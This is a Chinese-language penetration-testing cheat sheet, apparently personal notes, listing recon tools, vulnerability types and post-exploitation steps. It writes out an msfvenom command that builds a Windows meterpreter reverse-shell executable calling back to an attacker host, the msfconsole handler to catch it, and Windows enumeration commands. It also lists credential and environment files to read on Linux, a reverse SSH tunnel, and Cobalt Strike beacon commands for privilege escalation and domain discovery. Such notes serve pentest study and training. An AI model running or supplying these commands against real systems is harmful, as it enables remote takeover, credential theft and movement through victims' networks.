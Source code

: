 # 渗透测试

## 资产扫描/信息搜集

- Layer子域名挖掘机

- Nmap

- Goby 

## 渗透

- 敏感信息泄露
 - 源码泄露
 - DEBUG信息泄露
- 逻辑漏洞
- 文件上传


## 后渗透

### Windows 渗透

利用msf套件

反弹shell

生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击机地址> LPORT=<攻击机端口> -f exe > shell.exe
```

上传到靶机后

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <靶机地址>
set LPORT <攻击机端口>
exploit
```

拿到meterpreter shell以后

可以``shell``进入cmd环境

信息搜集

```
whoami
hostname
net user
net localgroup administrators
查看是什么操作系统 & 系统版本：
系统中文：systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
系统英文：systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

#### 参考资料
https://guide.offsecnewbie.com/privilege-escalation/windows-pe


### Linux 渗透

#### 敏感文件

```
/etc/passwd
/etc/shadow
```

#### ``/proc``

```
/proc/cpuinfo
/proc/meminfo
/proc/self/maps
/proc/self/cwd
/proc/self/status
/proc/self/exe
/proc/self/environ #查看环境变量
/proc/self/cmdline #查看启动参数
/proc/self/root
```

#### Apache

```
/etc/httpd/conf/httpd.conf
/etc/apache2/apache2.conf
/etc/apache2/sites-enabled/000-default.conf
```

#### php

```
/etc/php/7.4/fpm/php.ini
/etc/php/7.4/fpm/pool.d/www.conf
```

##### 字典

https://github.com/ev0A/ArbitraryFileReadList


### 提权

```
sudo -l
```

### 隧道

ssh port forwarding

```
ssh -R 9001:localhost:9001 root@192.168.19.130
```

### Cobalt Strike

```
sleep 1 （修改回连时间，快速响应操作）

getuid（查看当前beacon是以什么身份运行的）

getsystem（尝试获取SYSTEM权限）

getprivs（获取当前beacon所有权限）

net view HACKBIJI（非域用户，查看域HACKBIJI计算机信息，可以看到域控服务器地址）

net dclist（域用户，查看域控服务器）

net share（列出所有的共享目录和文件）

net user (列出所有的用户)
```

